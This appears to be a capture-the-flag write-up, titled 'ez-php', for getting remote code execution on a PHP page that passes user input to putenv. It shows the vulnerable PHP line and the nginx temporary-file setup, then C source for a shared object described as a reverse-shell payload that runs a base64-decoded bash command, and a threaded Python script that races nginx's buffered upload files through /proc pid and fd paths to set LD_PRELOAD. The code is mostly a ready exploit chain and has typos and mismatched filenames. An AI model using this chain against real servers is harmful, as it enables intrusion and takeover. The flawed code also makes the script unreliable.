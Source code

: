 # ez one line php : ez-php 

## Main idea 

Utilizing the feature that nginx will completely save the oversized post data as a temporary file, through conditional competition, the LD_PRELOADThe value of the environment variable is set to the uploaded temporary file, and then in system() when rce is triggered 

this is the index.php 

```php
<?php (empty($_GET["l3mon"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo uwu');?>
```

## Testing temporary file location and content :

we first need to set up the environment, 
- change the configuration of nginx by set `client_body_in_file_onlyOpen` so that temporarily saved files are not deleted: 

our nginx configuration file is `/etc/nginx/nginx.conf` 

```nginx
http {
    client_body_in_file_only on;
    client_body_temp_path /tmp/nginx_client_temp;
    client_body_buffer_size 128k;
    client_max_body_size 128k;
    proxy_temp_path /tmp/nginx_proxy_temp;
    proxy_buffer_size 128k;
    proxy_buffers 4 128k;
    proxy_busy_buffers_size 128k;
    proxy_max_temp_file_size 0;
    fastcgi_temp_path /tmp/nginx_fastcgi_temp;
    fastcgi_buffer_size 128k;
    fastcgi_buffers 4 128k;
    fastcgi_busy_buffers_size 128k;
    fastcgi_max_temp_file_size 0;
    uwsgi_temp_path /tmp/nginx_uwsgi_temp;
    uwsgi_buffer_size 128k;
    uwsgi_buffers 4 128k;
    uwsgi_busy_buffers_size 128k;
    uwsgi_max_temp_file_size 0;
    scgi_temp_path /tmp/nginx_scgi_temp;
    scgi_buffer_size 128k;
    scgi_buffers 4 128k;
    scgi_busy_buffers_size 128k;
    scgi_max_temp_file_size 0;
}
```

our `/etc/nginx/sites-enabled/default`

```nginx
location ~ \.php$ { 
        include snippets/fastcgi-php.conf; 
        client_body_in_file_only on; 
        # With php-fpm (or other unix sockets): 
#       fastcgi_pass unix:/run/php/php7.3-fpm.sock; 
        # With php-cgi (or other tcp sockets): 
        fastcgi_pass 127.0.0.1:9000; 
} 
```
now let's install inotifywait, monitor /var/lib/nginx ： 
    
    ```bash
    apt install inotify-tools
    ```
then we initiate a request to the server, and we can see that the temporary file is created in /var/lib/nginx ： 

```bash
root@kali:~# inotifywait -m /var/lib/nginx -e create
Setting up watches.  Beware: since -r was given, this may take a while!
Watches established.
```
we send a big request to the server, and we can see that the temporary file is created ： 

```python 
mport  requests 
URL =  f'http://ant.com:8888/index.php' 
requests.post(URL, data= 16 * 1024 * 'A' ) 
```

after sending the request, we can see that the temporary file is created ： 

```bash
root@kali:~# cat /var/lib/nginx/body/0000000001
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ....
```
that's interesting, we can see that the temporary file is created in /var/lib/nginx/body/0000000001, and the content is the same as the data we sent. 

## RCE :

### structuring the payload ： 
```c
    // reverse shell payload l3m
# define  _GNU_SOURCE 

# include  <stdlib.h> 

__attribute__ ((__constructor__))  void  preload  ( void ) 
{ 
    system( "echo payload64 | base64 -d | bash" ); 
} 
```

we compile it 
    
```bash
gcc -fPIC reverseshell.c -shared -o reverseshell.so 
```

Dirty data can be spliced ​​directly at the end of the .so file: 

```python
with  open( "reverseshell.so" , "br" )  as  f: 
  c = f.read() 
  c = c +  16 * 1024 * b'A' 
with  open( "reverseshell_dirty.so" , "bw" )  as  f: 
  f.write(c) 
  ```

## The whole exploit chain :
    
```python
import  sys, threading, requests 

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance 
URL =  'http://target:port/index.php' 
done =  False 
# upload a big client body to force nginx to create a /var/lib/nginx/body/$X 
def   uploader  ()  : 
    print( '[+] starting uploader' ) 
    while  not  done: 
        requests.get(URL, data=open("rev.so" , "br" ).read()) 
for  _  in  range( 16 ): 
    t = threading.Thread(target=uploader) 
    t.start() 

# brute force nginx's fds and pids 
def  bruter () : 
    for  pid  in  range(4194304): 
        print( f'[+] brute loop restarted:  {pid} ' ) 
        for  fd  in  range( 4 ,  32 ): 
            f =  f'/proc/ {pid} /fd/ {fd} ' 
            r  = requests.get(URL, params={ 
                'env' :  f"LD_PRELOAD= {f} " , 
            }) 

a = threading.Thread(target=bruter) 
a.start() 

```

Success Rate : 60 %

> with love by l3mon